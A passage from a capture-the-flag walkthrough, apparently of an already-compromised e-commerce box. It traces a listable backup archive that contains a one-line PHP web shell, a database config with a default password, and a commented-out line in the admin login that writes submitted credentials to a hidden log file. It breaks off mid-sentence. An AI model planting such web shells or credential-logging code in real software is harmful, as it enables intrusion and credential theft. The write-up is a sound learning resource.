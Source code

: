 ```

```

#### Backup

`/backup` is directory-listable, serving a single file, `a.tar.gz`:

![image-20210116072744638](https://0xdfimages.gitlab.io/img/image-20210116072744638.png)

The archive contains a backup for the website. The source code shows the root folder contains an interesting file, `.sh.php`:

```

<?php system($_REQUEST['cmd']); ?>

```

This file isn’t on the host anymore, but perhaps was put up there when the box was compromised.

I spent far too long looking for a config file that would contain the password. I found a password for the database in `includes/config.inc.php`:

```

// Database
  define('DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');
  define('DB_DATABASE', 'ecom');
  define('DB_TABLE_PREFIX', 'lc_');
  define('DB_CONNECTION_CHARSET', 'utf8');
  define('DB_PERSISTENT_CONNECTIONS', 'false');

```

The password “changethis” could very well be wrong in this case. It certainly doesn’t work to get into the admin panel.

Eventually some recursive `grep` found this in `shop/admin/login.php`:

```

if (isset($_POST['login'])) {
    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
    user::login($_POST['username'], $_POST['password'], $redirect_url, isset($_POST['remember_me']) ? $_POST['remember_me'] : false);
  }

```

That commented line is interesting. Given the theme of this box is likely that it’s already compromised, maybe the other hacker left that behind to collect creds. That log file is still on the server:
